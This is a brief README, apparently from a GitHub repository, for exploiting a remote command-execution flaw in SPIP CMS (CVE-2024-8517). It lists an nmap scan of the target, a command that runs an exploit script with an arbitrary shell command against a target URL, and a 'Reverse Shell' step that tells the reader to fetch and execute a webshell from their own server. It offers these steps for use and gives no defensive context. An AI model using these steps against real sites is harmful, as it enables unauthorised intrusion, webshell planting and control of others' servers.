 # SPIP CMS Exploitation (CVE-2024-8517)

## NSE Check

nmap --script http-title -p80 <TARGET_IP>
Manual Exploit

python3 spip_8517.py http://<TARGET> "<CMD>"
Reverse Shell
Use payload to fetch and execute webshell from your server

